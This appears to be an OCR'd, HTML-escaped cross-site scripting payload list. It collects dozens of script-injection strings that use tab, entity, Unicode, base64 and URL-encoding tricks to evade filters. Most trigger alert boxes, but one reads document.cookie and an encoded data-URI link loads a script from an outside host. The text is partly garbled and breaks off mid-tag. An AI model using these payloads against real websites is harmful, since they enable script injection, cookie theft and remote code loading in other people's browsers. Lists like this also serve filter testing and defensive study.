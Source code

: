 src=j&amp;NewLine;&amp;Tab;a&amp;NewLine;&amp;Tab;&amp;Tab;v&amp;NewLine;&amp;Tab;&amp;Tab;&amp;Tab;a&amp;NewLine;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;s&amp;NewLine;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;c&amp;NewLine;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;r&amp;NewLine;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;i&amp;NewLine;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;p&amp;NewLine;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;t&amp;NewLine;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;colon;a&amp;NewLine;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;l&amp;NewLine;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;e&amp;NewLine;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;r&amp;NewLine;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;t&amp;NewLine;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;28&amp;NewLine;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;1&amp;NewLine;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;&amp;Tab;%29>&lt;/iframe>  &lt;svg>&lt;script ?>alert(1)  &lt;iframe src=j&amp;Tab;a&amp;Tab;v&amp;Tab;a&amp;Tab;s&amp;Tab;c&amp;Tab;r&amp;Tab;i&amp;Tab;p&amp;Tab;t&amp;Tab;:a&amp;Tab;l&amp;Tab;e&amp;Tab;r&amp;Tab;t&amp;Tab;%28&amp;Tab;1&amp;Tab;%29>&lt;/iframe>  &lt;img src=`xx:xx`onerror=alert(1)>  &lt;meta http-equiv="refresh" content="0;javascript&amp;colon;alert(1)"/> &lt;math>&lt;a xlink:href="//jsfiddle.net/t846h/">click  &lt;embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always> &lt;svg contentScriptType=text/vbs>&lt;script>MsgBox+1  &lt;a href="data:text/html;base64_,&lt;svg/onload=\u0061&amp;#x6C;&amp;#101%72t(1)>">X&lt;/a  &lt;iframe/onreadystatechange=\u0061\u006C\u0065\u0072\u0074('\u0061') worksinIE>  &lt;script>~'\u0061' ; \u0074\u0068\u0072\u006F\u0077 ~ \u0074\u0068\u0069\u0073. \u0061\u006C\u0065\u0072\u0074(~'\u0061')&lt;/script U+  &lt;script/src="data&amp;colon;text%2Fj\u0061v\u0061script,\u0061lert('\u0061')">&lt;/script a=\u0061 &amp; /=%2F &lt;script/src=data&amp;colon;text/j\u0061v\u0061&amp;#115&amp;#99&amp;#114&amp;#105&amp;#112&amp;#116,\u0061%6C%65%72%74(/XSS/)>&lt;/script  &lt;object data=javascript&amp;colon;\u0061&amp;#x6C;&amp;#101%72t(1)>  &lt;script>+-+-1-+-+alert(1)&lt;/script>  &lt;body/onload=&amp;lt;!--&amp;gt;&amp;#10alert(1)>  &lt;script itworksinallbrowsers>/*&lt;script* */alert(1)&lt;/script  &lt;img src ?itworksonchrome?\/onerror = alert(1)  &lt;svg>&lt;script>//&amp;NewLine;confirm(1);&lt;/script &lt;/svg> &lt;svg>&lt;script onlypossibleinopera:-)> alert(1)  &lt;a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&amp;#97v&amp;#97script&amp;#x3A;&amp;#97lert(1)>ClickMe  &lt;script x> alert(1) &lt;/script 1=2  &lt;div/onmouseover='alert(1)'> style="x:">  &lt;--`&lt;img/src=` onerror=alert(1)> --!>  &lt;script/src=&amp;#100&amp;#97&amp;#116&amp;#97:text/&amp;#x6a&amp;#x61&amp;#x76&amp;#x61&amp;#x73&amp;#x63&amp;#x72&amp;#x69&amp;#x000070&amp;#x074,&amp;#x0061;&amp;#x06c;&amp;#x0065;&amp;#x00000072;&amp;#x00074;(1)>&lt;/script>  &lt;div style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)" onclick="alert(1)">x&lt;/button>  ">&lt;img src=x onerror=window.open('https://www.google.com/');>  &lt;form>&lt;button formaction=javascript&amp;colon;alert(1)>CLICKME  &lt;math>&lt;a xlink:href="//jsfiddle.net/t846h/">click  &lt;object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+>&lt;/object>  &lt;iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E">&lt;/iframe>  &lt;a href="data:text/html;blabla,&amp;#60&amp;#115&amp;#99&amp;#114&amp;#105&amp;#112&amp;#116&amp;#32&amp;#115&amp;#114&amp;#99&amp;#61&amp;#34&amp;#104&amp;#116&amp;#116&amp;#112&amp;#58&amp;#47&amp;#47&amp;#115&amp;#116&amp;#101&amp;#114&amp;#110&amp;#101&amp;#102&amp;#97&amp;#109&amp;#105&amp;#108&amp;#121&amp;#46&amp;#110&amp;#101&amp;#116&amp;#47&amp;#102&amp;#111&amp;#111&amp;#46&amp;#106&amp;#115&amp;#34&amp;#62&amp;#60&amp;#47&amp;#115&amp;#99&amp;#114&amp;#105&amp;#112&amp;#116&amp;#62&amp;#8203">Click Me&lt;/a>  &lt;SCRIPT>String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41)&lt;/SCRIPT> ‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–>&lt;/SCRIPT>”>’>&lt;SCRIPT>alert(String.fromCharCode(88,83,83))&lt;/SCRIPT> &lt;IMG “””>&lt;SCRIPT>alert(“XSS”)&lt;/SCRIPT>”> &lt;IMG SRC=javascript:alert(String.fromCharCode(88,83,83))> &lt;IMG SRC=”jav ascript:alert(‘XSS’);”> &lt;IMG SRC=”jav&amp;#x09;ascript:alert(‘XSS’);”> &lt;&lt;SCRIPT>alert(“XSS”);//&lt;&lt;/SCRIPT> %253cscript%253ealert(1)%253c/script%253e “>&lt;s”%2b”cript>alert(document.cookie)&lt;/script> foo&lt;script>alert(1)&lt;/script> &lt;scr&lt;script>ipt>alert(1)&lt;/scr&lt;/script>ipt> &lt;IMG SRC=&amp;#106;&amp;#97;&amp;#118;&amp;#97;&amp;#115;&amp;#99;&amp;#114;&amp;#105;&amp;#112;&amp;#116;&amp;#58;&amp;#97;&amp;#108;&amp;#101;&amp;#114;&amp;#116;&amp;#40;&amp;#39;&amp;#88;&amp;#83;&amp;#83;&amp;#39;&amp;#41;> &lt;IMG